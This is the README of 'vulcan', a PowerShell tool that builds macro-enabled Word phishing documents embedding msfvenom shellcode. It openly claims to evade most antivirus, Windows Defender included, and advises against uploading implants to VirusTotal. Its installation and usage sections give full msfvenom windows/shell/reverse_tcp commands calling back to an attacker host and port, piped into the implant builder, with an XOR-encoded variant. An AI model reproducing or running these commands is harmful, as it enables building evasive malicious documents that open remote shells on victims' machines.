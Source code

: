 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... Do not submit the produced implants to VirusTotal. 🤢

## Features

- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit more templates**.
- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit more templates**.
- Fine-tuning of *bloody* `Visual Basic` line-continuation using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone/download `vulcan`:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Import `vulcan`:

    ```powershell
    . .\Invoke-Vulcan.ps1
    ```

3. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
    Get-Content $ShellCode -AsByteStream -Raw | Invoke-Vulcan ...
```

```powershell
    wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a non-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | 
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.Visual Basic"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

- Embed a `XOR`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | 
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.Visual Basic" -Decoder xor -DecoderPath ".\assets\decoders\xor.vba" -CaesarShift 5
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder for your own values... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is primarily distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.